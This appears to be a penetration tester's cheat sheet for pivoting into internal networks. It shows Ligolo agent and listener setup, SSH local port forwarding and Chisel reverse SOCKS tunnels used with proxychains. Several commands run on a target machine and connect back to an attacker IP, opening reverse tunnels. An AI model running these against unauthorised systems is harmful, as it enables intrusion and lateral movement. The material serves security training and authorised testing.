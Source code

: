### Ligolo
###### This is great for tunneling to another internal network.
```
#Create network interface for ligolo
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up

#Start proxy on your machine
./lin-proxy -selfcert -laddr 0.0.0.0:7000

#Start agent on target machine
./lin-agent -connect <attacker IP here>:7000 -ignore-cert
./win-agent -connect <attacker IP here>:7000 -ignore-cert

#Add network routes on your machine
sudo ip route add <ip-add>/24 dev ligolo

#Start ligolo session and start routing traffic
session
start

==============================================================================================

#To add a listener to catch traffic from the further internal network back to your host.
#Enter session on host.
session

#Add listener
#Anything sent to this host on port 1234 will go to our kali on 4444.
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444

#Check lisener is active
listener_list

```

### Port Forwarding

###### This is great for forwarding just one local port on the target to your machine.

#### Local
```
#Forwards a port from a remote machine to your kali machine.
#Run this on the kali machine.
ssh -L <kali_port>:localhost:<target_port> <target_username>@<target_ip>

#Check if the port is listening (run on both target and host.)
ss -ntplu

#Target port examples
mysql -h localhost -p <target_port>
curl http://localhost:<target_port>
```

#### Dynamic Remote
This is good for reaching multiple internal local ports.

```
#On your machine
chisel server --port 80 --reverse

#On the target machine
chisel client <kali_ip>:80 R:socks > /dev/null 2>&1 &

#Add to /etc/proxycahins4.conf file
socks5	127.0.0.1 1080

#Sending traffic (can also configure foxy proxy too.)

#For reaching ports on that host
proxychains <command> <localhost>:<target_port>

#For reaching ports on the wider internal network
proxychains <command> <int_host>:<target_port>
```


